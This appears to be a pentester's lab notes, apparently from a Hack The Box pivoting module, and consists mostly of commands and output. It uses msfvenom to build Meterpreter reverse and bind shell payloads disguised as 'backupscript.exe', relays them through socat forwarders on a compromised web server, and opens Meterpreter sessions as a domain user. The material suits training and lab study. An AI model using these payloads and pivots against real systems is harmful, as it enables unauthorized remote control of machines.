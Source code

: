 # Socat Redirection with a Reverse Shell
#### Starting Socat Listener

```bash
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
#### Creating the Windows Payload

```bash
Yashfren@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```
#### Starting MSF Console

```bash
Yashfren@htb[/htb]$ sudo msfconsole
```
#### Configuring & Starting the multi/handler

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```
#### Establishing the Meterpreter Session

```bash
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```
# Socat Redirection with a Bind Shell 
## FIRST RDP, THEN SOCAT IN UBUNTU@WEBSERVER AND THEN AT THE END METASPLOIT METERPRETER BIND_TCP MULTI HANDLER THING
#### Creating the Windows Payload 

```bash
Yashfren@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.
#### Starting Socat Bind Shell Listener

```bash
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)
#### Configuring & Starting the Bind multi/handler

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.
#### Establishing Meterpreter Session

```bash
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

--- 
# PRACTICAL BIND SHELL

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o bindbackupscript.exe LPORT=8443
```

```powershell-session
.\bindbackupscript.exe
```

```bash
ubuntu@WEB01:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:9001
2025/05/30 20:28:56 socat[3645] E connect(5, AF=2 172.16.5.19:9001, 16): Connection refused
2025/05/30 20:28:56 socat[3646] E connect(5, AF=2 172.16.5.19:9001, 16): Connection refused
2025/05/30 20:28:56 socat[3647] E connect(5, AF=2 172.16.5.19:9001, 16): Connection refused
2025/05/30 20:28:56 socat[3648] E connect(5, AF=2 172.16.5.19:9001, 16): Connection refused
^Cubuntu@WEB01:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
2025/05/30 20:29:03 socat[3651] E bind(5, {AF=2 0.0.0.0:8080}, 16): Address already in use
ubuntu@WEB01:~$ ^C
ubuntu@WEB01:~$ socat TCP4-LISTEN:8081,fork TCP4:172.16.5.19:8443
```

```bash
┌──(apu㉿frenbook)-[~/PTPF]
└─$ sudo msfconsole -q                              
[sudo] password for apu: 
Sorry, try again.
[sudo] password for apu: 
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.134.95
RHOST => 10.129.134.95
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > set LPORT 8081
LPORT => 8081
msf6 exploit(multi/handler) > run
[*] Started bind TCP handler against 10.129.134.95:8081
[*] Sending stage (203846 bytes) to 10.129.134.95
[*] Meterpreter session 1 opened (10.10.16.251:34041 -> 10.129.134.95:8081) at 2025-05-31 01:59:39 +0530

meterpreter >
```